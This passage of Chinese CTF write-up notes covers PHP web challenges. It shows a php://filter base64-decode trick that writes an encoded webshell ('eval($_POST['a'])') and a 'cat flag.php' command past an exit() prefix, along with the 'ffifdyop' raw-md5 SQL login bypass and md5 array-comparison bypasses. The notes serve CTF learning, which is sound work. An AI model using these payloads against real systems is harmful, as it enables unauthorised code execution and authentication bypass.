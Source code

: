 - [php伪协议](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

我们如果使用　　file=php://filter/write=convert.base64-decode　　来进行对file变量的处理，既以base64的编码来读。
因为<?php exit;?>中"<、?、;、>"等符号解码时都会被忽略，所以命令就变成了-->    “phpexit”。

将命令用base64编码，得到PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=，然后在原有的（phpexit）基础上添加上述base64代码，(****这里我们为了让其成为八位，所以任意在后面加一个a)得到

`phpexitaPD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`

而传过去的值为

`code=aPD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`

凑一下就得到flag
```
?code=PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=&filename=php://filter/write=convert.base64-decode/resource=1.php
```

### [BJDCTF2020]Easy MD5

**password='".md5($pass,true)."'**

`ffifdyop`，这个点的原理是 `ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ‘ or ‘6，
而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是`1select * from 'admin' where password='' or '6xxxxx'`

等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数

**md5 bypass**

md5()或者sha1()之类的函数计算的是一个字符串的哈希值，对于数组则返回false，如果$a和$b都是数组则双双返回FALSE, 两个FALSE相等得以绕过

![](img/18.png)
